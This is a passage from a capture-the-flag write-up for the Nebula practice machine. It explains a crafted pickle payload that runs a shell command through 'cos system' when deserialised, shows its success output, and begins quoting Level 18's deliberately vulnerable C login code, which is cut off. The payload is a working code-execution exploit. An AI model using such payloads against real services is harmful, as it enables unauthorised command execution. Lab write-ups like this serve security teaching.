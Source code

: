 I'll explain the pickle string a bit:

- `cos\nsystem` resolves the classname and calls it
- `(` is the marker
- `S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\n` this is our command we want to run
- `tR\n` - `t` puts the string onto the stack and `R` pops this tuple and calls it, thus executing our lovingly crafted payload.

Once run it looks like it worked so let's be sure

```C
level17@nebula:/tmp/flag17$ cat ../f17pwned
You have successfully executed getflag on a target account
```

## Level 18

> Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
    char file[64];

    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
      dprintf("Unable to read password file %s\n", PWFILE);
      return;
    }
                fclose(fp);
    if(strcmp(pw, file) != 0) return;
  }
  dprintf("logged in successfully (with%s password file)\n",
    fp == NULL ? "out" : "");

  globals.loggedin = 1;

}

void notsupported(char *what)
{
```
